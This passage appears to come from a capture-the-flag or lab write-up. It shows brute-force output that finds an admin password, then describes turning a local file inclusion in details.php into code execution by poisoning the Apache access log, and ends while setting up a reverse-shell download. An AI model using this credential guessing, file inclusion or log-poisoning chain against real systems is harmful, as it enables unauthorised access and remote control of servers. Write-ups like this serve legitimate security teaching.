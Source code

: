 ```python
[+] Trying admin13admin… ✗
[+] Trying admin14admin… ✗
[+] Trying admin15admin… ✗
[+] Trying admin16admin… ✗
[+] Trying admin17admin… ✗
[+] Trying admin18admin… ✗
[+] Trying admin19admin… ✗
[+] Trying admin20admin… ✗
[+] Trying admin21admin… ✗
[+] Trying admin22admin… ✗
[+] Trying admin23admin… ✗
[+] Trying admin24admin… ✗
[+] Trying admin25admin… ✗
[+] Trying admin26admin… ✗
[+] Trying admin27admin… ✗
[+] Trying admin28admin… ✗
[+] Trying admin29admin… ✗
[+] Trying admin30admin… ✗
[+] Trying admin31admin… ✗
[+] Trying admin32admin… ✗
[+] Trying admin33admin… ✗
[+] Trying admin34admin… ✗
[+] Trying admin35admin… ✗
[+] Trying admin36admin… ✗
[+] Trying admin37admin… ✗
[+] Trying admin38admin… ✗
[+] Trying admin39admin… ✗
[+] Trying admin40admin… ✗
[+] Trying admin41admin… ✗
[+] Trying admin42admin… ✗
[+] Trying admin43admin… ✗
[+] Trying admin44admin… ✅  SUCCESS!
    → admin password is: admin44admin
```


We got our credentials:

```
admin:admin44admin
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519193418.png)

We are now able to get access to the admin panel, let's check the `details.php` page:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519193521.png)

As seen, it changed, `LFI` works now, knowing this, we can achieve `RCE` using this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519195900.png)

Using `/var/log/apache2/access.log`, we can download a reverse shell into the server and execute it, we need to host the file in a python server, then use:
